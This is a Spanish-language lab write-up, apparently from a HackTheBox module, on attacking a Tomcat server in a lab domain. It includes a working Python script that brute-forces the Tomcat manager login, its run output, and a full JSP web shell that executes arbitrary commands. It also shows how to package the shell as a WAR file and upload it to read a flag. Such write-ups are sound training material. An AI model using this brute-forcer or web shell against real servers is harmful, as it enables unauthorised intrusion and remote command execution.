


# Laboratorio: Tomcat 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**

---

2. Para saber la versión de **Tomcat** que se ejecuta en `web01.inlanefreight.local`, lo que haremos es visitar la dirección **`/docs`** 
* **URL:** `http://web01.inlanefreight.local:8180/docs/`

<p align="center">
    
</p>

---

3. El rol que tiene el **administrador** es el de `admin-gui`

---

# Laboratorio: Tomcat Attacking 😾

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---

2. El usuario que válido es `tomcat`

<p align="center">
    
</p>

---
3. Modificaremos un poco el **script** que nos da `HackTheBox` para bruteforcear la contraseña del usuario **`tomcat`**

* Script Python 🐍

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
passwords_file = args.passwords

new_url = url + uri
f_user = b"tomcat"
f_pass = open(passwords_file, "rb")
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for p in passwords:
	r = requests.get(new_url,auth = (f_user, p))
	if r.status_code == 200:
		cprint("\n[+] Success!!", "green", attrs = ['bold'])
		cprint("[+] Username : {}\n[+] Password : {}".format(f_user,p), "green", attrs = ['bold'])
		break

cprint("\n[+] Failed!!", "red", attrs = ['bold'])
cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
```
---

4. Ejecutamos el script y encontramos la contraseña válida ✅
* `python3 brute-force_tomcat.py -U http://web01.inlanefreight.local:8180/ -P /manager  -p tomcat_mgr_default_pass.txt`

**Output**
```bash
[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'root'
```

---

5. Ahora comprimieremos el archivo `cmd.jsp` en uno con extensión **.jsp**

* **cmd.jsp**

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

* Luego: `zip -r shell.war cmd.jsp`

---

6. Ahora subimos el **archivo .war** 

---

7. Ahora ya podemos ejecutar comandos y leemos la **flag** 🏴
* **URL:** `http://web01.inlanefreight.local:8180/shell/cmd.jsp`

<p align="center">
    
</p>